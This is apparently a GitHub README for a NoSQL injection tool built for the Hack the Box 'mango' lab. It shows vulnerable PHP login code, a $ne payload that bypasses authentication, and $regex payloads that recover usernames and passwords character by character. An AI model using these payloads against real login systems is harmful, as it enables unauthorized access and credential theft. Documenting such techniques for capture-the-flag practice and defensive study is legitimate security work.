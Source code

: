 # enum-nosql
MongoDB noSQL injection exploit example from **Hack the Box / mango** <https://app.hackthebox.com/machines/214> for username and password enumeration.

## authentication bypass
If parameter values are directly taken from autentization form as follow:
```php
$query = array("username" => $_POST["username"], "password" => $_POST["password"]);
```

It's possible to use PHP associative array processing to inject query that return always true and bypass autentication process.
```php
username[$ne]=""&password[$ne]=""
```

The PHP process malformed input as follow:
```php
$query = array("username" => array("$ne" => ""), "password" => array("$ne" => ""));
```

## username and password enumeration
It's possible to use also regular expressions in query and try to guess username letters one by one.
```php
username[$regex]="^{letter from wordlist}"&password[$ne]=""""
```

If there is username for example "alice" and we start with first letter from wordlist 'a' with following query:
```php
username="{found username}"&password[$regex]="^a"
```

The querry returns *true* value so we know that there is username with letter a on first possition. If query returns false we continue with next letter from wordlist. In this way is possible to expose whole username letter by letter. It's necessary to go through all wordlist letters even if query returns true because there could be more usernames specified (alice, alida, allisha,... and of course bob) with same username prefix (in script is possible to solve it with recursions).

After usernames are enumeration it's possible to enumerate passwords with following querry:
```php
username="{found username}"&password[$regex]="^{letter from wordlist}"
```

## usage
```bash
enum-nosql -u {target_ip}
```

